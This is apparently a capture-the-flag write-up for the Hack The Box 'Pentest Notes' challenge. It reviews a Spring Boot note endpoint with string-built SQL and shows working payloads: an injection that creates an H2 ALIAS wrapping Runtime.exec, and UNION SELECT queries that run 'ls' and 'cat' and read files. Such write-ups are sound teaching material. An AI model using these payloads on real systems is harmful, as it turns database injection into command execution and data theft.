 ```yaml
---
title: Pentest Notes - Hack The Box
date: 2024-11-11
---
```


# Pentest Notes

![Pentest Notes - thumbnail](/ctf/hack-the-box/challenges/web/pentest-notes/thumbnail.gif)

## Box description

People-first web application projects are always a boring, like a note or a tic tac toe game, so I have created an
upgraded version called 'Pentest Note'!

## Challenge Description

This challenge presents us with a web application built using **Spring Boot**, which provides a simple interface for
registration and login. Upon logging in, we are shown three notes:

![Pentest Checklist](/ctf/hack-the-box/challenges/web/pentest-notes/pentest-checklist.png)

Clicking on each note redirects us to a page displaying the content of that specific note:

![Pentest Note](/ctf/hack-the-box/challenges/web/pentest-notes/pentest-note.png)

## Code Review

### NoteController.java

The `NoteController.java` file handles note retrieval based on a `name` parameter passed in an HTTP request:

```java
@RestController
@RequestMapping("/api")
public class NotesController {

    [...]

    @PostMapping("/note")
    public ResponseEntity < ? > noteByName(@RequestParam String name, HttpSession httpSession) {
        if (httpSession.getAttribute("username") == null) {
            return ResponseEntity.status(HttpStatus.UNAUTHORIZED).body("unauthorized");
        }
        if (name.contains("$") || name.toLowerCase().contains("concat")) {
            return ResponseEntity.status(HttpStatus.FORBIDDEN).body("Bad character in name :)");
        }
        String query = String.format("Select * from notes where name ='%s' ", name);
        List < Object[] > resultList = entityManager.createNativeQuery(query).getResultList();
        List < Map < String, Object >> result = new ArrayList < > ();
        for (Object[] row: resultList) {
            Map < String, Object > rowMap = new HashMap < > ();
            rowMap.put("ID", row[0]);
            rowMap.put("Name", row[1]);
            rowMap.put("Note", row[2]);
            result.add(rowMap);
        }
        return ResponseEntity.ok(result);
    }
}
```

Key Observations:

- The `noteByName` method takes in a `name` parameter and checks if the user is logged in. If not, it returns an
  unauthorized response.
- It further checks if the `name` parameter contains the character `$` or the term `concat`, blocking requests
  containing either.
- The `name` parameter is then passed directly into a SQL query without sanitization, making the query vulnerable to SQL
  Injection.

### Aplication.properties

The application uses an H2 in-memory database to store the notes, as indicated by the configuration in
`application.properties`:

```properties
spring.application.name=PentestNotes
spring.datasource.url=jdbc:h2:mem:notedb
spring.datasource.driverClassName=org.h2.Driver
spring.jpa.database-platform=org.hibernate.dialect.H2Dialect
spring.jpa.defer-datasource-initialization=true
spring.http.encoding.charset=UTF-8
spring.mvc.view.charset=UTF-8
```

Searching for **H2 database** and **SQL injection** references online, we find
an [h2-exploit script](https://gist.github.com/h4ckninja/22b8e2d2f4c29e94121718a43ba97eed) that can assist in exploiting
this
vulnerability.

## Exploitation - SQL Injection

### Initial Testing

To verify the SQL injection vulnerability, we send a request with a payload containing a single quote `'` in the `name`
parameter. This generates an error, confirming that the input is processed directly in the SQL query.

### Proof of Concept (PoC)

To test further, we use a classic SQL injection payload:

```sql
1' or '1'='1
```

The application returns the following response:

```
[
    {
        "Note" : "One  ' to rule them all",
        "ID" : 1,
        "Name" : "SQL Injection"
    },
    {
        "Note" : "Script alert 1 !!!!!!!!!",
        "ID" : 2,
        "Name" : "Cross Site Scripting"
    },
    {
        "Note" : "IDK, can you tell me?                   ¯\\_(ツ)_/¯",
        "ID" : 3,
        "Name" : "Skill issue"
    }
]
```

The response reveals that the injection successfully bypassed the query, displaying all notes in the database. This
confirms the SQL injection vulnerability.

### Creating an Alias for Code Execution

To fully exploit this, we can use **H2’s ALIAS** feature to create a Java alias that allows command execution. However,
since `$` is restricted in the `name` parameter, we modify the typical alias creation syntax by using `'` instead of
`$`.

#### Modified Alias Creation:

```sql
CREATE ALIAS EXECVE AS 'String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }'; -- -
```

Using the following SQL injection payload, we inject the alias into the database:

```sql
1'; CREATE ALIAS EXECVE AS 'String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }'; -- -
```

Upon receiving a `200 OK` response, we confirm that the alias was successfully created.

### Executing Commands with the Alias

With the alias created, we can now use `UNION SELECT` to invoke `EXECVE` and execute system commands. For example, to
list
the root directory and locate the flag, we use:

```sql
1' UNION SELECT NULL, NULL, EXECVE('ls /') --
```

The response shows:

```
[
    {
        "Note" : "app\nbIK4tYUmPNmp_flag.txt\nbin\nboot\ndev\netc\nhome\nlib\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n",
        "ID" : null,
        "Name" : null
    }
]
```

This output reveals the flag file `bIK4tYUmPNmp_flag.txt`.

#### Reading the Flag file

To read the contents of `bIK4tYUmPNmp_flag.txt`, we use the following payload:

```sql
1' UNION SELECT NULL, NULL, EXECVE('cat /bIK4tYUmPNmp_flag.txt') --
```

Alternatively, we can also use H2’s built-in `file_read()` method to read files, along with the `cast()` method to
convert the output to a string format:

```sql
1' UNION SELECT NULL, NULL, CAST(FILE_READ('/bIK4tYUmPNmp_flag.txt', NULL) AS VARCHAR) --
```

The response:

```
[
    {
        "Note" : "HTB{f4k3_fl4g_f0r_t35t1ng}",
        "ID" : null,
        "Name" : null
    }
]
```

We successfully retrieved the fake flag!
We can now use the same technique to get the real flag.

![Pentest Notes - pwned](/ctf/hack-the-box/challenges/web/pentest-notes/pwned.png)

## References

- [H2 Database - Doc](https://www.h2database.com/html/main.html)
- [H2 Database - Exploit](https://gist.github.com/h4ckninja/22b8e2d2f4c29e94121718a43ba97eed)
- [dotCMS 5.1.5: Exploiting H2 SQL injection to RCE](https://www.sonarsource.com/blog/dotcms515-sqli-to-rce/)
- [Portswigger - SQL injection UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
